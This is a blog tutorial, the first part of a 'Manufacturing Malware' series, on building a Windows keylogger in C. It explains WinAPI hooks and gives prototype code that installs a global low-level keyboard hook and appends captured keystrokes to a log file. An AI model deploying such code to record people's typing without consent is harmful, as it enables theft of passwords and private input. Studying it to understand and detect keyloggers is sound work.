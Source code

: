 ```yaml
---
layout: post
title: "Manufacturing Malware 0x01 - Keyloggers Part I"
date: 2016-04-27 14:00:00 +0100
categories: Malware
tags:
  - malware
  - windows
  - winapi
  - c
author: dtm
---
```

S'goin' on guys, dtm here with a write-up on Windows keylogging.

As a promotional gift, I will be detailing a type of keylogger on the code level written in MSVC++ utilising the WinAPI.

**Disclaimer**: The following document is not newbie-friendly and requires a fair amount of knowledge of both general programming concepts and Windows internals:

	Proficiency in C/C++
	Knowledge of the WinAPI and its documentation
	Knowledge of Windows messages and message queues
	Knowledge of Windows hooks
	Some understanding of multi-threading
	Recommended knowledge of Mutual Exclusions
	Recommended knowledge of FTP
	
- - - -
	
## General Overview of Keyloggers
A keylogger is an object which, in its simplest state, tracks key presses registered by the keyboard. Note that this object can be hardware as well as software but this article will focus more on the latter. When a key is pressed, the keylogger is able to capture it and then pass it along to its original destination. Keyloggers are not always considered malware since it is dependant on the situation in which it is used. Consider the following: If a parent is concerned about their child's activity on the computer, they can easily monitor them through their keyboard input; or in a company, the employer wishes to monitor the activity of his employees to make sure that they aren't doing what they aren't supposed to do. in fact, this probably goes for all "malware". Such applications may be referred to as _Possibly Unwanted Programs_ (PUP) or _Possibly Unwanted Applications_ (PUA).

In a standard console application which takes keyboard input, for example, using the _getchar_ function from the standard C library, the input from the keyboard gets buffered into the stdin where the program can fetch the character. A keylogger is not limited to its own active console window (if it even has one at all) so how are we able to globally capture keystrokes? The answer is pretty simple, actually, in fact, Microsoft has already done most of the heavy lifting for us.

- - - -

## Callback Functions
Windows applications all work in harmony using something called **messages**. These messages are all passed through the message queue and each application can detect and process its own messages. Within the applications are _callback_ functions which may be called in the event of retrieving certain messages. For example, pressing ALT+F4 in a GUI window will send a `WM_CLOSE` message into the message queue where the corresponding application's **message loop** will detect it and pass it to a [`WindowProc`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms633573%28v=vs.85%29.aspx) callback function for processing. What happens inside this function is that the message is filtered through some switch cases and in the case of a `WM_CLOSE` message, it will handle any clean ups and whatever else it needs, then it will destroy the window and also possibly exit the program. 

```c
LRESULT CALLBACK WindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam) {
	switch (uMsg) {
		case WM_CLOSE:
			// ...
			DestroyWindow(hwnd);
	}
```

Additional message information may also be passed into the callback function under WPARAM and LPARAM arguments. Note that these arguments will not always be the same and can change under different callback functions.

### LowLevelKeyboardProc
There exists a callback function called [`LowLevelKeyboardProc`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644985%28v=vs.85%29.aspx) and what this function does is it responds to key state changes either within a thread scope or a global scope - of course we're wanting to have a global scope for our purposes. But before we can use this function, we first need to learn about Windows hooks.

- - - -

## Windows Hooks
From the MSDN documentation on [Windows Hooks](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644959%28v=vs.85%29.aspx), "*A hook is a mechanism by which an application can intercept events, such as messages, mouse actions, and keystrokes. A function that intercepts a particular type of event is known as a hook procedure. A hook procedure can act on each event it receives, and then modify or discard the event.*" As we can see from this description, applications are able to *"intercept ... keystrokes*" and that is exactly what we are aiming to do with a keylogger.

### Installing Hooks
To install a hook procedure, we must use the [`SetWindowsHookEx`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644990%28v=vs.85%29.aspx) function to install a hook like so:

```c
LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam) {
	// ...
	
	return CallNextHookEx(NULL, nCode, wParam, lParam);
}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
	// ...
	
	SetWindowsHook(idHook, (HOOKPROC)HookProc, hMod, dwThreadId);
	
	// this is our message loop to receive messages from the queue
	MSG msg;
	BOOL bRet;
	while ((bRet = GetMessage(&msg, NULL, 0, 0)) != 0) {
		if (bRet == -1) {
			// handle error
		} else {
			TranslateMessage(&msg);
			DispatchMessage(&msg);
		}
	}
	
	return 0;
}
```

Here, we would define a callback function `HookProc` and use a call to `SetWindowsHookEx` to install a hook so that our function can intercept and handle the hook procedure of type `idHook`. In the HookProc, we are highly recommended to call [`CallNextHookEx`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644974%28v=vs.85%29.aspx) to be able to pass the hooked information onwards to the next existing hook procedure. 

Let's finally get our hands dirty by writing a prototype.

- - - -

## Keylogger Prototyping
**Disclaimer**: The following code snippets will not contain any error checking for the sake of readability.

We now know what we need to set up a function to intercept keystrokes from the information provided above. It should look a little something like this:

```c
LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
	// ...
	
	return CallNextHookEx(NULL, nCode, wParam, lParam);
}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
	// ...
	
	SetWindowsHook(WH_KEYBOARD_LL, (HOOKPROC)LowLevelKeyboardProc, hModule, 0);
	
	// message loop here
}
```

For our `SetWindowsHookEx`, we require the `idHook` parameter to be `WH_KEYBOARD_LL` since it has a global scope. For our dwThreadId parameter, we set it to 0 since this will allow our hook procedure to be associated will all existing threads running on the same desktop as our application. As of yet, our keylogger is useless to us since we have not implemented any method to store the keystrokes.

### Writing Keystrokes to Disk
First, we need to know about the arguments which are passed into the `LoweLevelKeyboardProc` function. 

According to the MSDN documentation for the `LowLevelKeyboardProc` function, `nCode` will hold the value `HC_ACTION` if *" `wParam` and `lParam` parameters contain information about a keyboard message"*. So only when `nCode` is equal to `HC_ACTION` will we need to write to the file, else we do not care. Once we have such a situation, we will need to check the `wParam` and `lParam` for information about the keypress. `wParam` contains information about how the key was pressed such as a key down or key up. `lParam` is documented as a pointer to a [`KBDLLHOOKSTRUCT`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644967%28v=vs.85%29.aspx) which contains the respective [`vkCode`](https://msdn.microsoft.com/en-us/library/windows/desktop/dd375731%28v=vs.85%29.aspx) of the keypress.

```c
LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
	if (nCode == HC_ACTION) {
		if (wParam == WM_KEYDOWN) {
			KBDLLHOOKSTRUCT *kbd = (KBDLLHOOKSTRUCT *)lParam;
			DWORD vkCode = kbd->vkCode;
			
			if (vkCode >= 0x30 && vkCode <= 0x5A) {
				FILE *fp = fopen(KEYLOG_FILE, "a+");
				
				fputc(vkCode, fp);
				
				fclose(fp);
			}
		}
	}
	
	return CallNextHookEx(NULL, nCode, wParam, lParam);
}
```

We can typecase the `lParam` as a pointer to a `KBDLLHOOKSTRUCT` and assign it to a variable `kbd`. For this example, we only test for basic input which includes keys ranging from `0-9` and `A-Z`. Of course, right now there is a lot missing detail with regards to other keys such as `ALT`, `CTRL` and `SHIFT` and also that it cannot differentiate upper and lower case and symbols. We can easily fix this by manually adding in some tests and switch statements until it reaches our satisfaction. Once we have extracted the `vkCode` member from `kbd` and it satisfies the key range, we will open our file defined by `KEYLOG_FILE` with an append mode and simply add on the `vkCode` to the end of the file.

After we've finished what we intended to do, we can then push the keypress onwards to the next hook procedure.

- - - -

## Conclusion
In the next part I will showcase my keylogger code and briefly run through its functionality and how it's achieved. Thanks for reading and stay tuned!

*-- dtm*
